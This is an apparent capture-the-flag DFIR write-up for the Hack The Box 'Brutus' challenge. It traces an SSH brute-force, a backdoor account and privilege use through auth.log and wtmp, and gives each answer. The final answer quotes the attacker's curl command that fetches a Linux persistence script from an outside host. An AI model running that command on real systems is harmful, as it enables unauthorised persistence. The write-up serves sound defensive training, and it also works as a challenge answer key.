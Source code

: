 # Brutus

**Category:** DFIR  
**Level:** Very Easy  

![brutusheader](https://github.com/candypopZZ/htb-sherlock-walkthrough/blob/main/images/brutusheader.JPG?raw=true)

## Scenario  
In this very easy Sherlock, you will familiarize yourself with Unix `auth.log` and `wtmp` logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using `auth.log`. Although `auth.log` is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

**Given:** `brutus.zip` containing `auth.log` and `wtmp`

---

## Task 1  
**Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**

I used the command below to read the log file:

<pre>cat auth.log</pre>

Then I searched for multiple failed attempts on user accounts, which are clear indicators of a brute force attack. After analyzing the log, I identified the IP address responsible for these attempts.

![task1brutus](https://github.com/candypopZZ/htb-sherlock-walkthrough/blob/main/images/task1brutus.JPG?raw=true)

**Answer:** 65.2.161.68

---

## Task 2  
**The brute force attempts were successful and the attacker gained access to an account on the server. What is the username of the account?**

I searched for keywords like `"login successful"` or `"Accepted"` in `auth.log`. After reviewing the logs following multiple failed attempts from the attacker, I found the successful login entry and the account that was accessed.

<pre>grep "Accepted" auth.log</pre>

![task2brutus](https://github.com/candypopZZ/htb-sherlock-walkthrough/blob/main/images/task2brutus.JPG?raw=true)

**Answer:** root

---

## Task 3  
**Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**

Initially, I tried:

<pre>cat wtmp</pre>

But the file was unreadable because it is in binary format. After some research, I discovered a tool called `utmpdump`, which can convert binary data in files like `utmp`, `wtmp`, and `btmp` into a readable format. I used the command below:

<pre>utmpdump /var/log/wtmp</pre>

I obtained readable output and then synchronized the timestamp with entries in `auth.log` to confirm the correct login time.

![task3.1brutus](https://github.com/candypopZZ/htb-sherlock-walkthrough/blob/main/images/task3.1brutus.JPG?raw=true)

![task3.2brutus](https://github.com/candypopZZ/htb-sherlock-walkthrough/blob/main/images/task3.2brutus.JPG?raw=true)

**Answer:** 2024-03-06 06:32:45

---

## Task 4  
**SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**

I correlated the SSH login timestamp in `auth.log` with the session entries in the `utmpdump` output from the `wtmp` file to find the session number associated with the attacker's login.

**Answer:** 37

---

## Task 5  
**The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**

I searched `auth.log` for keywords related to user creation. I used:

<pre>grep "add" auth.log</pre>

I found a log entry indicating that a new user account was added.

![task5brutus](https://github.com/candypopZZ/htb-sherlock-walkthrough/blob/main/images/task5brutus.JPG?raw=true)

**Answer:** cyberjunkie

---

## Task 6  
**What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**

I visited the MITRE ATT&CK website and looked under the *Persistence* tactics to find the sub-technique for creating a new account. The relevant ID for this technique is:

![task6brutus](https://github.com/candypopZZ/htb-sherlock-walkthrough/blob/main/images/task6brutus.JPG?raw=true)

**Answer:** T1136.001

---

## Task 7  
**What time did the attacker's first SSH session end according to auth.log?**

I analyzed `auth.log` to find the logout or session closure entry that corresponds with the attacker's SSH session. I used:

<pre>grep "session closed" auth.log</pre>

The session end time was recorded in the logs.

**Answer:** 2024-03-06 06:37:24

---

## Task 8  
**The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

I searched `auth.log` for occurrences of `"sudo"` and identified the exact command that the attacker executed using elevated privileges. I used:

<pre>grep "sudo" auth.log</pre>

![lasttaskbrutus](https://github.com/candypopZZ/htb-sherlock-walkthrough/blob/main/images/lasttaskbrutus.JPG?raw=true)

**Answer:** /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

---

## Brutus solved! 🎉

![brutussolved](https://github.com/candypopZZ/htb-sherlock-walkthrough/blob/main/images/lasttaskbrutus.JPG?raw=true)

### What I learned  
- Reading and analyzing log files  
- Discovered the tool `utmpdump`  
- Learned about MITRE ATT&CK technique for account creation (T1136.001)
